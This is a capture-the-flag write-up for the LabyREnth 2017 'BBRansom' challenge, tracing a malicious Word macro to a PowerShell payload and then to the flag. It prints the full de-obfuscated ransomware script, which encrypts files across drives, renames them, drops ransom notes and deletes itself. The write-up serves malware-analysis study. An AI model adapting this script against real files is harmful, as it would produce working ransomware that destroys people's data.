 ## LabyREnth CTF 2017
# Threat 4 : BBRansom

We are provided with a Office Word Document

Running OfficeMalScanner against it will retrieve its VBA macros

The interesting code is in "UjRtRQl" file but it is obfuscated

### De-obfuscating the VBA Macro

I used an old script of mine, [DocumentVariableExtractor.vbs](DocumentVariableExtractor.vbs) to extract the variable "ygsbFH"  
Do note that this script requires Microsoft Office installed to work

This variable contains the dictionary that is used to deobfuscate the rest of the code.

```
cscript DocumentVariableExtractor.vbs <FULL PATH to bbransom.doc> ygsbFH > dictionary
```

Trim off the header in the "dictionary" output file to prepare it for use.

[deobfus_UjRtRQl.vbs](deobfus_UjRtRQl.vbs) contains the redacted version of the vbs script.  
This script basically writes out a Powershell script and executes it.  
I redacted the powershell stuffs out to better illustrate what the vbs script is actually doing.

[soln_01_extract_panlaby.php](soln_01_extract_panlaby.php) will decode the powershell and output it to a file "panlaby.ps1"

### De-obfuscating the Powershell script

panlaby.ps1 has obfuscated variable names.

I deobfuscated and renamed them to be more meaningful

```ps1
$UTF8 = [System.Text.Encoding]::UTF8
$b64str = "DwImSAI1CgMYSQQ+GhoO"
$key = $UTF8.GetBytes("For great justice")
$b64str = $UTF8.GetString([System.Convert]::FromBase64String($b64str))
$msg = $UTF8.GetBytes($b64str)
$goblinKingString = 
$(
    for ($i = 0; $i -lt $msg.length; ) {
        for ($j = 0; $j -lt $key.length; $j++) {
            $msg[$i] -bxor $key[$j]
            $i++
            if ($i -ge $msg.Length) {
                $j = $key.length
            }
        }
    }
)
$goblinKingString = $UTF8.GetString("ImTheGoblinKing")
$keyString = "OjsjcvRgahjsHbsbbcghhdUjjcRtgWhscJhsdUjsbndRgj"
$random24Chars = ([Char[]](GeT-RaNdom -Input $(48..57 + 65..90 + 97..122) -Count 24)) -join ""
[byte[]]$goblinKingBytes=[system.Text.Encoding]::Unicode.GetBytes($goblinKingString)
$keyBytes = [Text.Encoding]::UTF8.GetBytes($keyString)
$Cipher = neW-Object System.Security.Cryptography.RijndaelManaged
$Cipher.Key = (new-Object Security.Cryptography.Rfc2898DeriveBytes $goblinKingString, $keyBytes, 5).GetBytes(32)
$Cipher.IV = (new-Object Security.Cryptography.SHA1Managed).ComputeHash([Text.Encoding]::UTF8.GetBytes("alle") )[0..15]
$Cipher.Padding="Zeros"
$Cipher.Mode="CBC"
$GottenDrives= gdr|where {$_.Free}|Sort-ObjeCt -Descending
foreach($curDrive in $GottenDrives){
    gci $curDrive.root -Recurse -Include "*.urbb","*.toby"|%{
    try{
        $curFile = New-Object System.IO.BinaryReader([System.IO.File]::Open($_, [System.IO.FileMode]::Open, [System.IO.FileAccess]::ReadWrite, [System.IO.FileShare]::Read),[System.Text.Encoding]::ASCII)
        if ($curFile.BaseStream.Length -lt 2048){return}
        else {$readSize = 2048}
        $fileBytes = $curFile.ReadBytes($readSize)
        $curFile.Close()
        $Encryptor = $Cipher.CreateEncryptor()
        $MemoryStream = new-Object IO.MemoryStream
        $CryptoStream = new-Object Security.Cryptography.CryptoStream $MemoryStream,$Encryptor,"Write"
        $CryptoStream.Write($fileBytes, 0,$fileBytes.Length)
        $CryptoStream.Close()
        $MemoryStream.Close()
        $Encryptor.Clear()
        $EncryptedOutput = $MemoryStream.ToArray()
        $OutputBinaryWriter = New-Object System.IO.BinaryWriter([System.IO.File]::Open($_, [System.IO.FileMode]::Open, [System.IO.FileAccess]::ReadWrite, [System.IO.FileShare]::Read),[System.Text.Encoding]::ASCII)
        $OutputBinaryWriter.Write($EncryptedOutput,0,$EncryptedOutput.Length)
        $OutputBinaryWriter.Close()
        $TheNewName=$_.Name+'.bbmine'
        ren -Path $_.FullName -NewName $TheNewName -Force
        $InstructionFilePath = $_.Directory.ToString() + '\_HELP_instructions.html'
        $HTMLRansomContent = [System.Text.Encoding]::UTF8.GetString("<h1>I am the goblin king!</h1><br>All ur bbz  are belong to us. You have no chance to survive make your time.");
        New-Item -Path $InstructionFilePath -ItemType file -Value $HTMLRansomContent
        Add-Content -Path $InstructionFilePath -Value ("<h1>CLIENT ID: $random24Chars <br></h1>")
        Add-Content -Path $InstructionFilePath -Value ([System.Text.Encoding]::UTF8.GetString("<h2>Campaign ID: Fi48W1UTAwMSQVkQRk1aVAB/DUQRVxQBBxdGCBcSEFtUB3RXEEJXFFxRTERbQhdHWgVcdgpKQ18TAVRDEwtNFkRfVwM7 <br></h2>"));
        Add-Content -Path $InstructionFilePath -Value ([System.Text.Encoding]::UTF8.GetString("<h3>Version Key: For great justice <br></h3>"));
    }
    catch{}
    }
}
function YHBFDXGFGHGJHDRSD() {
    $fhYThncwwIjfDFGHsf = (Get-VaRiable MyInvocation -Scope 1).Value
    $YHnbbfgcgfcEThhYH =  $fhYThncwwIjfDFGHsf.MyCommand.Path
    Remove-ITem $YHnbbfgcgfcEThhYH
}
YHBFDXGFGHGJHDRSD
```

### Getting the flag

The Powershell script is basically a ransomware
- Initialize a Cipher using several strings as Key and IV
- Loops through all directories, looking for files ending with ".urbb" or ".toby" and encrypts them using the Cipher
- Once a files are encrypted, display a ransom message with the following values
    - 24 character random ClientID
    - Campaign ID : Fi48W1UTAwMSQVkQRk1aVAB/DUQRVxQBBxdGCBcSEFtUB3RXEEJXFFxRTERbQhdHWgVcdgpKQ18TAVRDEwtNFkRfVwM7
    - Version Key: "For great justice"

I was stuck here for some time.  
At first, I thought I needed to decrypt the Campaign ID with the Cipher Instance  
But the solution is much simpler
- Perform a Xor between the Base64-decoded Campaign ID and the Version Key will give the flag

[soln_02_panlaby.php](soln_02_panlaby.php) will do just that and display the flag

![theflag](img/01.png)

The flag is **PAN{2afbfa3e5937e9b610fdfcfbbad27b28bb0f908d17d33f90e8c8ad573a8e064f}**